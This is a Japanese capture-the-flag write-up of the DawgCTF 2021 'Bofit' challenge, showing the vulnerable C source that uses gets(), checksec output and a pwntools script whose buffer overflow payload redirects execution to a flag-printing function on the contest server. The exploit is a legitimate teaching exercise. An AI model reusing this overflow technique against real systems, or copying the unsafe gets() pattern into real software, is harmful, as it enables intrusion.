 ```yaml
---
title: "DawgCTF 2021 Writeup"
date: 2021-05-09T11:00:00+09:00
lastmod: 2021-05-09T11:00:00+09:00
draft: false
keywords: []
description: ""
tags: ["CTF"]
categories: ["CTF"]
author: ""
---
```

{{% right %}}
<a href="https://translate.google.com/translate?hl=en&sl=ja&tl=en&u=https%3A%2F%2Fcaptureamerica.github.io%2Fwriteups%2Fpost%2Fdawgctf_2021%2F">
<img src="https://captureamerica.github.io/writeups/img/En.png" alt="English">
</a>
{{% /right %}}


URL: [https://umbccd.io/](https://umbccd.io/)
<br /><br />

730点を獲得し、最終順位は209位でした。<br />
<img src="https://captureamerica.github.io/writeups/img/dawgctf_2021_score.png" alt="dawgctf_2021_score.png">

<br>

以下は解いたチャレンジです。<br />

<img src="https://captureamerica.github.io/writeups/img/dawgctf_2021_solves1.png" alt="dawgctf_2021_solves1.png">

<br>

<img src="https://captureamerica.github.io/writeups/img/dawgctf_2021_solves2.png" alt="dawgctf_2021_solves2.png">

<br><br>

<img src="https://captureamerica.github.io/writeups/img/dawgctf_2021_solves3.png" alt="dawgctf_2021_solves3.png">

<br>

<img src="https://captureamerica.github.io/writeups/img/dawgctf_2021_solves4.png" alt="dawgctf_2021_solves4.png">

<br><br>

わけがわからないチャレンジが結構あったな、というのが正直な感想です。みんな、よく頑張って解いているなぁ、と思いました。

<br>

RSAの2つは RsaCtfTool.py で解いて 350 (150 + 200) points 取っているし、他も簡単なのしか解けてないですが、とりあえず Pwn の 一個だけ Writeup 残しておきます。


<br /><br />
## [Pwn]: Bofit (125 points)
- - -
### Challenge
> Because Bop It is copyrighted, apparently
<br /><br />

Attachment:

- bofit (ELF 64bit)
- bofit.c

以下、ソースコードの中身です。

```C
#include <stdio.h>
#include <stdbool.h>
#include <stdlib.h>
#include <time.h>
#include <string.h>
#include <unistd.h>

void win_game(){
	char buf[100];
	FILE* fptr = fopen("flag.txt", "r");
	fgets(buf, 100, fptr);
	printf("%s", buf);
}

int play_game(){
	char c;
	char input[20];
	int choice;
	bool correct = true;
	int score = 0;
	srand(time(0));
	while(correct){
		choice = rand() % 4;
		switch(choice){
			case 0:
				printf("BOF it!\n");
				c = getchar();
				if(c != 'B') correct = false;
				while((c = getchar()) != '\n' && c != EOF);
				break;

			case 1:
				printf("Pull it!\n");
				c = getchar();
				if(c != 'P') correct = false;
				while((c = getchar()) != '\n' && c != EOF);
				break;

			case 2:
				printf("Twist it!\n");
				c = getchar();
				if(c != 'T') correct = false;
				while((c = getchar()) != '\n' && c != EOF);
				break;

			case 3:
				printf("Shout it!\n");
				gets(input);
				if(strlen(input) < 10) correct = false;
				break;
		}
		score++;
	}
	return score;
}

void welcome(){
	char input;
	printf("Welcome to BOF it! The game featuring 4 hilarious commands to keep players on their toes\n");
	printf("You'll have a second to respond to a series of commands\n");
	printf("BOF it: Reply with a capital \'B\'\n");
	printf("Pull it: Reply with a capital \'P\'\n");
	printf("Twist it: Reply with a capital \'T\'\n");
	printf("Shout it: Reply with a string of at least 10 characters\n");
	printf("BOF it to start!\n");
	input = getchar();
	while(input != 'B'){
		printf("BOF it to start!\n");
		input = getchar();
	}
	while((input = getchar()) != '\n' && input != EOF);
}

int main(){
	int score = 0;
	welcome();
	score = play_game();
	printf("Congrats! Final score: %d\n", score);
	return 0;
}
```

<br />

### Solution
play_game()関数の中にBOFの脆弱性が存在します。

そこに辿り着く前に、まず'B'を送って、次に "Shout it" が出るまで 'B', 'P', または 'T' を送り続ける必要があります。

あとは、BOFを発生させて win_game() に飛ぶだけです。

<br />

<pre>
$ checksec bofit
[*] '/home/captureamerica/Mac_Downloads/bofit'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
</pre>

<br />
win_game()のアドレスは以下の通りです。gdbのi funcで確認してます。No PIEなので、これは固定です。

<pre>
0x0000000000401256  win_game
</pre>


<br />

書いたコード。

```Python
#!/usr/bin/env python
# -*- coding:utf-8 -*-

from pwn import *

if 0:
    s = process('./bofit')
else:
    host, port = 'umbccd.io', 4100
    s = remote(host, port)

s.recvuntil('BOF it to start!\n')
s.sendline('B')

while 1:
    msg = s.recvuntil('\n')
    if "Shout it!" in msg:
        print(msg)
        break
    c = list(msg)
    s.sendline(c[0])

payload = ''
payload += b'A' * 20
payload += b'B' * 20
payload += p64(0x0000000000401256)  # win_game()
payload += p64(0x0000000000401256)  # win_game()
payload += p64(0x0000000000401256)  # win_game()
s.sendline(payload)
msg = s.recvall()
print(msg)
s.close()
```


<br />

Flag: `DawgCTF{n3w_h1gh_sc0r3!!}`

<br />

実のところ、'B'の20バイトの辺りとか、win_game()のアドレスの繰り返しとか、あまり考えずにトライ・アンド・エラーでテキトーにやってます。

ちゃんと理解した上でやらねば。。。


<br /><br />
<br /><br />
- - -
<br /><br />
<br /><br />

